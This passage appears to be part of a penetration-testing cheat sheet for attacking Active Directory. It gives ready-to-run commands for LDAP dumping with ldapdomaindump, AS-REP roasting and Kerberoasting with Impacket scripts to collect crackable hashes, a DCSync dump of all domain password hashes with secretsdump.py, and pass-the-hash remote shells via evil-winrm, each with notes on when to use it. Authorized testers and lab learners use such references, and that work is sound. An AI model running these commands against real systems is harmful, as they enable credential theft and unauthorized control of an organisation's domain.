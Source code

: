 #### ldapdomaindump (Automated LDAP enumeration)
```bash
# Dump everything from LDAP
ldapdomaindump ldap://$TARGET -u "$DOMAIN\\$USER" -p "$PASS" -o ldap_dump/
# When to use: Have credentials, want complete AD database dump
# What it gives you: HTML pages with users, groups, computers, etc.
```

### Kerberos Attack Commands

#### GetNPUsers.py (AS-REP Roasting)
```bash
# Target specific users
GetNPUsers.py -no-pass -usersfile users.txt $DOMAIN/ -dc-ip $TARGET
# When to use: Have user list, no credentials yet
# What it does: Finds users with "Do not require Kerberos preauthentication"

# Output to file for cracking
GetNPUsers.py -no-pass -usersfile users.txt $DOMAIN/ -dc-ip $TARGET -outputfile asrep.hash
# When to use: Found vulnerable users, want to save hashes for cracking
```

#### GetUserSPNs.py (Kerberoasting)
```bash
# Find service accounts
GetUserSPNs.py $DOMAIN/$USER:"$PASS" -dc-ip $TARGET
# When to use: Have credentials, looking for service accounts to target

# Request tickets
GetUserSPNs.py $DOMAIN/$USER:"$PASS" -dc-ip $TARGET -request -outputfile tgs.hash
# When to use: Found service accounts, want to get crackable tickets
```

### Post-Exploitation Commands

#### secretsdump.py (Credential dumping)
```bash
# DCSync attack (dump all domain hashes)
secretsdump.py -just-dc $DOMAIN/$USER:"$PASS"@$TARGET
# When to use: Have DCSync rights, want all domain password hashes

# Target specific user
secretsdump.py -just-dc-user Administrator $DOMAIN/$USER:"$PASS"@$TARGET
# When to use: Only need specific user's hash
```

#### evil-winrm (Remote shell)
```bash
# Connect with password
evil-winrm -i $TARGET -u $USER -p $PASS
# When to use: Port 5985/5986 open, have credentials

# Connect with hash
evil-winrm -i $TARGET -u $USER -H $NTLM_HASH
# When to use: Have NTLM hash from secretsdump, want shell
```

---